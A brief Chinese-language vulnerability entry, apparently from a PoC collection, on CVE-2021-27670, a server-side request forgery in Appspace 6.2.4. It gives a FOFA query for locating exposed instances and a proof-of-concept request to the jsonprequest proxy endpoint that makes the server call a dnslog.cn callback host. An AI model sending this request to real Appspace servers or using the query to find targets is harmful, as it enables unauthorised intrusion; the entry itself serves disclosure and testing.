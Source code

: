 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

<a-checkbox checked>Appspace 6.2.4</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Sign-in-to-Appspace-Core"</a-checkbox></br>

## 漏洞复现

登录页面为

![img](../../../.vuepress/public/img/1630488521981-cac80156-754a-4388-9f0e-f1b32a25bdca.png)

验证POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://lo2z02.dnslog.cn
```

![img](../../../.vuepress/public/img/1630488586297-b2ee6e6c-6739-494c-ad7f-39eeb43a486e.png)
